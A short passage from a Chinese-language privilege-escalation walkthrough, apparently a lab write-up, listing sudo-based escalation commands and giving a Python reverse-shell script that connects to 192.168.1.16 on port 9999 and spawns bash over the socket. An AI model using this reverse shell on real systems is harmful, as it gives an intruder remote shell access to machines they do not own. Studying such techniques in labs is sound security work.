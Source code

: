 

或者直接`sudo -i、sudo -s`或`sudo su -`，反正和`sudo`有关的提权基本上都可以上

![](./pic-1/27.jpg)



#### python提权

在网上看到使用`john`也可以提权的方式，编写`file.py`脚本

```python
import os,pty,socket
s=socket.socket()
s.connect(("192.168.1.16",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("bash")
```

![](./pic-1/28.jpg)


